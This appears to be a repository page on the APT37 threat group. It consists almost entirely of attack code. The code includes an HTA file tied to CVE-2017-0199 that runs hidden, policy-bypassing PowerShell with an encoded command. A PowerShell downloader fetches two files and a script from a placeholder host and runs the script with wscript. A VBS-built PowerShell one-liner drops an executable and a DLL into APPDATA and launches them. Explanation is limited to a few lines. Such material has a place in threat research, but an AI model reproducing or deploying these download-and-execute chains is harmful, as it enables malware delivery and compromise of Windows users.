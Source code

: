 # APT37

## Features

1. Download and execute malicious HTA files using Microsoft Office vulnerability (CVE-2017-0199).

```hta
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type" />

<title>Bonjour</title>
<script language="VBScript">
Set owFrClN0giJ = CreateObject("Wscript.Shell")
Set v1ymUkaljYF = CreateObject("Scripting.FileSystemObject")
If v1ymUkaljYF.FileExists(owFrClN0giJ.ExpandEnvironmentStrings("%PSModulePath%") + "..\powershell.exe") Then
owFrClN0giJ.Run "powershell -nop -windowstyle hidden -executionpolicy bypass -encodedcommand [Base64 encryption command]" ,0
owFrClN0giJ.Run "cmd /c echo hta>%tmp%\webbrowser1094826604.tmp", 0
End If
Self.Close
</script>
<hta:application
id="oHTA"
applicationname="Bonjour"
application="yes"
>
</head>
</html>
```

The Base64 encrypted command will download and execute a Windows script and two malicious files after decryption.

```hta
$c=new-object System.Net.WebClient
$t =$env:temp
$t1=$t+"\\alitmp0131.jpg"
$t2=$t+"\\alitmp0132.jpg"
$t3=$t+"\\alitmp0133.js"

try
  {
    echo $c.DownloadFile( "http://domain/btob_asiana/appach01.jpg",$t1)
    $c.DownloadFile( "http://domain/btob_asiana/appach02.jpg",$t2)
    $c.DownloadFile( "http://domain/btob_asiana/udel_ok.ipp",$t3)
    wscript.exe $t3
  }
catch
  {
  }
```

2. When sending malicious software through VBS, multiple malicious files will be downloaded using the anti-aliasing PowerShell command.

```powershell
objShell.Run "cmd.exe /k powershell.exe" & " " & "-windowstyle" & " " & "hidden" & " " & "-ExecutionPolicy Bypass" & " " & "$h='%APPDATA%/Microsoft/Windows/msvcrt32.dll'" & ";" & "$f='%APPDATA%/Microsoft/ieConv.exe'" & ";" & "$x='" & "http://" & "Url" & "/UserFiles/File/image/images/happy.jpg" & "';" & "$t='" & "http://" & "Url" & "/UserFiles/File/image/images/wwwtest.jpg" & "';" & "(" & "New-Object System.Net.WebClient" & ")" & ".DownloadFile($t,$f)" & ";" & "(" & "New-Object System.Net.WebClient" & ")" & ".DownloadFile($x,$h)" & ";" & "Start-Process $f" & ";" & "Stop-Process" & " " & "-processname" & " " & "cmd", 0
```
